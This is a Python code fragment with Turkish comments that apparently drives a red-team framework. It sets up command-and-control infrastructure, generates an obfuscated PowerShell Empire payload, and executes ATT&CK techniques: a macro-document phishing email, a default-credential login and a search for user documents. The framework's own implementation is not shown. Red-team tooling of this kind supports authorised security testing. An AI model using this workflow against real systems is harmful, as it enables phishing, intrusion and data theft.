 ```python
    }
    
    c2_info = red_team.setup_c2_infrastructure(operation_id, c2_config)
    
    # Payload oluştur
    payload = red_team.generate_payload(
        payload_type='powershell_empire',
        target_os='windows',
        c2_server=f"https://{c2_info['domain']}:{c2_info['port']}",
        evasion_techniques=['base64_encoding', 'string_obfuscation']
    )
    
    print(f"\n[+] Generated payload hash: {payload['hash'][:16]}...")
    
    # Red team tekniklerini uygula
    techniques_to_execute = [
        {
            'technique_id': 'T1566.001',
            'parameters': {
                'target_email': 'admin@corporate.local',
                'attachment_path': 'invoice.docm',
                'subject': 'Urgent: Invoice Payment Required'
            }
        },
        {
            'technique_id': 'T1078',
            'parameters': {
                'username': 'admin',
                'password': 'Password123!',
                'target_system': '192.168.1.10'
            }
        },
        {
            'technique_id': 'T1083',
            'parameters': {
                'search_path': 'C:\\Users',
                'file_patterns': ['*.pdf', '*.docx', '*.xlsx']
            }
        }
    ]
    
    for technique in techniques_to_execute:
        result = red_team.execute_technique(
            operation_id=operation_id,
            target_id=target_ids[0],  # İlk hedef
            technique_id=technique['technique_id'],
            parameters=technique['parameters'],
            operator='Alice'
        )
        
        print(f"\n[+] Technique {technique['technique_id']} result: {result.get('success', False)}")
        
        # Kısa bekleme
        time.sleep(1)
    
    # Operasyon raporu oluştur
    print("\n" + "="*60)
    print("RED TEAM OPERATION REPORT")
    print("="*60)
    
    report = red_team.generate_operation_report(operation_id)
    
```